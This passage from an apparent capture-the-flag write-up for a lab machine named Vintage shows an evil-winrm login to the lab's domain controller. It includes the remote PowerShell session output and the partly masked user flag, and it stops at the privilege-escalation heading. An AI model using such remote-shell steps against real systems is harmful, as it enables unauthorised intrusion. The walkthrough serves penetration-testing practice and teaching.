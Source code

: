 Then we log in remotely using port 5985 and using the following command

```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

```bash
❯ evil-winrm -i dc01.vintage.htb -r vintage.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline'
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cd ..
*Evil-WinRM* PS C:\Users\C.Neri> ls


    Directory: C:\Users\C.Neri


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---          6/7/2024   1:17 PM                3D Objects
d-r---          6/7/2024   1:17 PM                Contacts
d-r---          6/7/2024   1:19 PM                Desktop
d-r---          6/8/2024   3:02 PM                Documents
d-r---          6/7/2024   1:17 PM                Downloads
d-r---          6/7/2024   1:17 PM                Favorites
d-r---          6/7/2024   1:17 PM                Links
d-r---          6/7/2024   1:17 PM                Music
d-r---          6/7/2024   1:17 PM                Pictures
d-r---          6/7/2024   1:17 PM                Saved Games
d-r---          6/7/2024   1:17 PM                Searches
d-r---          6/7/2024   1:17 PM                Videos


*Evil-WinRM* PS C:\Users\C.Neri> cd Desktop
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> cat user.txt
b15d12695f2#########################
```

And we already have the first flag, now we move on to the elevation of privileges

## PRIVILEGE ESCALATION
---
![Texto alternativo](/assets/vintage/Screenshot%202025-03-07%20133351.jpg)
